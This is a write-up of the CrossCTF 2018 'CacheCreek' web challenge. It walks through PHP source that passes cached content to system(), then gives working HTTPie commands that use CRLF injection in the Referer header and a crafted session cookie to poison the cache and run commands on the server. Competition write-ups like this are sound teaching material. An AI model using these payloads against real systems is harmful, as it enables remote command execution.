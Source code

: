 
# CrossCTF Finals 2018: CacheCreek (web)

> I wrote a new cache mechanism, it is pretty cool, can you please review it for me?
>
> http://ctf.pwn.sg:8181
>
> Creator - quanyang (@quanyang)

# Challenge

First, we explored the entire source tree. The index and login pages have nothing interesting, but if you put `?source=1` on other pages, you can get the source.

First we find the cache reader, in cache.php: (From now on, we'll omit the unimportant parts)

```
# http://ctf.pwn.sg:8181/cache.php?source=1
...
include_once("./curl.php");
if (isset($_GET['report']) && $_GET['report'] === "debug") {
	$debug = url_get_contents("http://127.0.0.1/internal.php?debug". session_id(), 60, "index.php",['debug'=>'True']);
	echo "debug command: ".htmlentities($debug)."<br/>";
	system($debug);
	echo 'debugged!';
	die();
}

echo "Caching Admin's Profile:<br />";
echo htmlentities(url_get_contents("http://127.0.0.1/internal.php?". session_id(), 60, urldecode($_SERVER['HTTP_REFERER']),['view'=>'admin']));
echo '<br /><br />';
...
```

Cool, it calls system()! There's the interesting file called `curl.php`. Must be some URL fetching tool

```
# http://ctf.pwn.sg:8181/curl.php?source=1
/*
    Adapted from a cache written by Carlo Alberto Ferraris <cafxx@strayorange.com>
*/
function cache($url, $min_expiration, $referer="", $params) {
    $min_expiration = max( intval( $min_expiration ), 1 );
    $cache_key = hash('sha256',$url) or die();
    $cache_file = CACHE_PREFIX . $cache_key;
    $cache_file_fullpath = CACHE_DIR . '/' . $cache_file;
    $cache_file_mtime = @filemtime($cache_file_fullpath);
    // If there's a cached file, this code reads from the file
	...
	// If there isn't, fetch the URL and save to the file
	...
}

function url_get_contents($url, $min_expiration=60, $referer="", $params=Array()) {
    return file_get_contents( cache( $url, $min_expiration, $referer, $params));
}
```

The contents of the thing it puts into `system()`:

```
include_once('./curl.php');
// We haz checks method and referer for security!11
if ($_SERVER['REQUEST_METHOD'] == "POST" && strpos($_SERVER['HTTP_REFERER'], 'index.php') !== False ) {
    if ($_POST['debug'] === "True") {
        // Maybe delete the tmp directory
        echo 'rm -f '. CACHE_DIR . '/'.CACHE_PREFIX.'*';
    } else if (isset($_POST['view'])) {
        $connObj = new dbConn();
        $profile = $connObj->getProfile($_POST['view'])['profile'];
        echo $profile;
    }
} else {
    die("die hax0r!!11");
}
```

This can't be a SQLi thing. This must have something to do with caching as the title suggests. And I noticed that I could inject request body into CURL by setting $referrer to the "rest" of the HTTP request. 

```
export user='dadada' length=11
http -v --form POST http://ctf.pwn.sg:8181/cache.php Referer:"index.php%0D%0AContent-Length%3A%20$length%0D%0AContent-Type%3A%20application%2Fx-www-form-urlencoded%0D%0A%0D%0Aview%3D$user"
```

This kinda produces a HTTP request to view any user. I also found out I could modify the request URI by setting SESSID cookie since `session_id()` was put into the request URL: 

```
http -v http://ctf.pwn.sg:8181/cache.php Cookie:PHPSESSID=True%26source%3D1
```

We didn't know how to proceed after this and stared at it for hours. With some luck, we got reminded about cache poisoning! Completely forgot that was a thing. Ugh. 

So the cache function importantly uses the URL to generate the filename to store the file contents. If we could make the debug function in `cache.php` read the wrong cache file, it could execute arbitrary code using system(). 

To exploit this, we have to make it store a cache file maliciously using the profile caching thing (sorry I'm sleepy). That means we have to produce the same URL as the URL that the debug code would look up (`"http://127.0.0.1/internal.php?debug". session_id()`), inside the profile lookup code. 

Since the profile lookup code requsts from `"http://127.0.0.1/internal.php?". session_id()`, we can substitute session_id() for debug and we'll get the same internal URL! 

```
# full cached url would be http://127.0.0.1/internal.php?debug
# Poison cache with profile of "admin"
http -v http://ctf.pwn.sg:8181/cache.php Cookie:PHPSESSID=debug Referer:index.php
# Poison cache with profile of "dadada"
export user='dadada' length=11
http -v --form POST http://ctf.pwn.sg:8181/cache.php Referer:"index.php%0D%0AContent-Length%3A%20$length%0D%0AContent-Type%3A%20application%2Fx-www-form-urlencoded%0D%0A%0D%0Aview%3D$user" Cookie:PHPSESSID=debug
```

Now we need to execute that code inside the cached file:

```
# full cached url would be http://127.0.0.1/internal.php?debug
http -v --form POST http://ctf.pwn.sg:8181/cache.php Cookie:PHPSESSID= Referer:index.php report==debug
POST /cache.php?report=debug HTTP/1.1
Accept: */*
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Length: 0
Content-Type: application/x-www-form-urlencoded; charset=utf-8
Cookie: PHPSESSID=
Host: ctf.pwn.sg:8181
Referer: index.php
User-Agent: HTTPie/0.9.9



HTTP/1.1 200 OK
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Connection: close
Content-Encoding: gzip
Content-Length: 104
Content-Type: text/html
Date: Mon, 18 Jun 2018 20:01:05 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Pragma: no-cache
Server: Apache/2.4.7 (Ubuntu)
Vary: Accept-Encoding
X-Powered-By: PHP/5.5.9-1ubuntu4.25

debug command: cat /flag.txt<br/>CrossCTF{Dont_h@te_tHe_aUth0r_hat3_d@_gam3}
debugged!
```

Yay!
